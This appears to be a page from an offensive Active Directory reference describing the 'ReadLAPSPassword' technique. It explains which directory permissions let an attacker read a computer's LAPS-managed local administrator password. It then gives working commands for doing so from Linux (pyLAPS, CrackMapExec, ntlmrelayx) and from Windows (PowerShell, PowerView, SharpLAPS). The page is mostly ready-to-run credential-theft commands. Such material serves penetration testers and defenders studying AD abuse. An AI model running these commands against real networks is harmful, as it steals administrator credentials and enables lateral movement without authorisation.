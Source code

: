 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

This page is about LAPS-based attacks, you may have a look on [LAPS-based persistences](../../../a-d/persistence/laps.md) and [LAPS enumeration](../../../a-d/recon/objects-and-settings/laps.md).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
```

Alternatively, [CrackMapExec](https://github.com/mpgn/CrackMapExec) also has this ability (since v5.1.6).. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.

[LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

The [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) powershell module from PowerSploit can also be used for that purpose.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

Using native PowerShell

```powershell
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { Write-Host "" ; $_.properties.cn ; $_.properties.'ms-mcs-admpwd'}
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process.

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://simondotsh.com/infosec/2022/07/11/dirsync.html" %}
